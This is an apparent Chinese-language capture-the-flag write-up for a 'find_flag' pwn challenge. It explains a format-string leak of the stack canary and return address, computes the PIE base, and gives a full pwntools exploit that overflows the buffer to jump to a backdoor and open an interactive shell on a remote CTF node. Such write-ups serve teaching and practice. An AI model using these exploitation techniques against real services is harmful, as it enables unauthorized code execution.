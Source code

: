 ![find_flag-offset.png](./assets/find_flag-offset.png)

canary 和返回地址的在栈上偏移分别为 17 和 19 ，我们构造 `%17$p,%19$p` 来泄露对应的值，同时可以在 IDA 找到返回地址的偏移地址为 **0x146F**  

![find_flag-ret_offset.png](./assets/find_flag-offset.png)

exp 如下：

```python
from pwn import *

p = remote("node4.anna.nssctf.cn",28516)

payload1 = "%17$p,%19$p"

p.sendlineafter("name? ",payload1)
p.recvuntil(", ")
re = p.recvuntil('!').decode().rstrip('!').split(',')
print(*re)
canary = int(re[0][2:],16)
return_addr = int(re[1][2:],16)
print('canary:%x'%canary)
print('return_address:%x'%return_addr)

base_addr = return_addr - 0x146F
backdoor_addr = base_addr + 0x122E

payload2 = b'a'*(0x40-0x8) + p64(canary) + b'a'*8 + p64(backdoor_addr)

p.sendlineafter("else? ",payload2)
p.interactive()
```